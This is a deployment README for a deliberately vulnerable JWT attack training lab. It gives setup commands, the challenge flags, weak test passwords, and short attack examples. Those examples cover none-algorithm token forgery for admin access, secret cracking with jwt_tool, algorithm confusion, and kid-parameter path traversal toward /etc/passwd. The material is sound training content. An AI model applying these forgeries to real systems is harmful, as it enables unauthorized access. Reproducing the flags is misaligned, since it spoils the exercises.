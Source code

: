 # 🔐 JWT Attacks Lab - Deployment Guide

## Quick Digital Ocean Deployment

### 1. Create Droplet
- **OS:** Ubuntu 22.04 LTS
- **Size:** $12/month (2GB RAM, 1 vCPU, 50GB SSD) - minimum
- **Region:** Choose closest to your location

### 2. Connect and Deploy
```bash
# SSH into your droplet
ssh root@YOUR_DROPLET_IP

# Install Docker and Docker Compose
curl -fsSL https://get.docker.com -o get-docker.sh && sh get-docker.sh
curl -L "https://github.com/docker/compose/releases/download/v2.21.0/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
chmod +x /usr/local/bin/docker-compose

# Clone and deploy
git clone https://github.com/hamzak-27/oswa-labs.git
cd oswa-labs/labs/oswa/jwt-attacks-lab/
chmod +x deploy-jwt-lab.sh
./deploy-jwt-lab.sh
```

### 3. Configuration
The script will ask for:
- **Domain name:** `jwt-lab.yourdomain.com`
- **Email:** For SSL certificates (optional)

### 4. Access Your Lab
- **Main Lab:** `https://your-domain/`
- **JWT Debugger:** `https://your-domain/debug/`
- **Backend API:** `https://your-domain/api/`

## What Gets Deployed

### 🔐 JWT Attack Challenges (1250 Points Total)
1. **None Algorithm Bypass** (100 pts) - `FLAG{JWT_N0N3_4LG0R1THM_BYP4SS}`
2. **Weak Secret Cracking** (250 pts) - `FLAG{JWT_W34K_S3CR3T_CR4CK3D}`
3. **Algorithm Confusion** (500 pts) - `FLAG{JWT_4LG0R1THM_C0NFUS10N_H4CK}`
4. **Kid Parameter Injection** (400 pts) - `FLAG{JWT_1NJ3CT10N_V1A_K1D_CL41M}`

### 🧪 Test Accounts
- `admin / admin123` (admin role)
- `alice / alice123` (user role) 
- `service_account / service123` (service role)
- `guest / guest123` (guest role)

### 🛠️ Services Included
- **React Frontend** - User interface for JWT lab
- **Node.js Backend** - API with intentional JWT vulnerabilities
- **JWT Debugger** - Token analysis and exploitation tool
- **MongoDB** - Database with test users and audit logs
- **Nginx** - Reverse proxy with SSL termination

### 🔒 Security Features
- SSL certificates (Let's Encrypt or self-signed)
- Firewall configuration with UFW
- Secure password generation
- VPN management interface
- Automated backups and monitoring

## Management Commands

```bash
# Monitor lab status
./monitor-jwt-lab.sh

# Create backup
./backup-jwt-lab.sh

# View logs
docker-compose -f docker-compose.production.yml logs -f

# Restart services
docker-compose -f docker-compose.production.yml restart

# Stop lab
docker-compose -f docker-compose.production.yml down

# Start lab
docker-compose -f docker-compose.production.yml up -d
```

## JWT Attack Examples

### None Algorithm Attack
```javascript
// Create JWT with none algorithm
const header = {"alg":"none","typ":"JWT"}
const payload = {"sub":"admin","role":"admin","permissions":["admin"]}
const token = btoa(JSON.stringify(header)) + "." + btoa(JSON.stringify(payload)) + "."

// Use token to access admin endpoints
fetch('/api/admin/users', {
  headers: { Authorization: `Bearer ${token}` }
})
```

### Weak Secret Cracking
```bash
# Get challenge token
curl https://your-domain/api/jwt/crack-challenge

# Crack using common passwords
jwt_tool.py TOKEN -C -d wordlist.txt
```

### Algorithm Confusion
```bash
# Get RSA public key
curl https://your-domain/api/jwt/pubkey

# Create HS256 token using public key as secret
# Access with ?force_hmac=true parameter
```

### Kid Parameter Injection
```javascript
// Create JWT with malicious kid parameter
const header = {"alg":"HS256","typ":"JWT","kid":"../../../etc/passwd"}
// Attempt file traversal via kid parameter
```

## Troubleshooting

### Check Service Status
```bash
docker-compose -f docker-compose.production.yml ps
```

### View Container Logs
```bash
docker-compose -f docker-compose.production.yml logs backend
docker-compose -f docker-compose.production.yml logs frontend
docker-compose -f docker-compose.production.yml logs jwt-debugger
```

### Health Checks
```bash
curl https://your-domain/api/health
curl https://your-domain/debug/health
```

### Rebuild Services
```bash
docker-compose -f docker-compose.production.yml down
docker-compose -f docker-compose.production.yml build --no-cache
docker-compose -f docker-compose.production.yml up -d
```

## Security Notes

⚠️ **This lab contains intentional security vulnerabilities!**

- Only use in isolated environments
- Never deploy to production networks
- Review and secure the `DEPLOYMENT_CREDENTIALS.txt` file
- Delete credentials file after noting the information

## Support

For issues or questions:
1. Check container logs
2. Run `./monitor-jwt-lab.sh`
3. Verify firewall and DNS settings
4. Ensure adequate server resources (2GB RAM minimum)

Happy JWT hacking! 🔐⚡